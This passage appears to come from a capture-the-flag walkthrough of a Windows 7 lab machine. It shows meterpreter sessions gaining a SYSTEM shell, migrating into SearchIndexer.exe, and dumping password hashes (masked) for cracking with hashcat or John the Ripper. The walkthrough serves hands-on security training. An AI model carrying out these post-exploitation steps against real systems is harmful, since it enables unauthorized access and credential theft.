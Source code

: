 2. Let's test the privilege escalations. We are `System` on the system.

**Output**

```ps
meterpreter > shell
Process 2212 created.
Channel 6 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

7. List all of the processes running via the 'ps' command. we find that the `2828 PID is interesting and out of the normal. Let's dig into it by **migrating into it**.

**Output**

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 .....
 2516  696   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 2584  696   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 2708  696   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\sppsvc.exe
 2756  696   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2828  696   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchIndexer.exe

meterpreter > migrate 2828
[*] Migrating from 2756 to 2828...
[*] Migration completed successfully.
```

## CRACKING CREDs

1. Within our elevated meterpreter shell, run the command 'hashdump'. We found creds for a non-default user `Jon` in it.\
We can now use _hashcat or johntheripper_ to crack them with correct mode and wordlist.

**Output**
```bash
meterpreter > hashdump
Administrator:***************************************************************:::
Guest::***************************************************************:::
Jon::***************************************************************:::
```
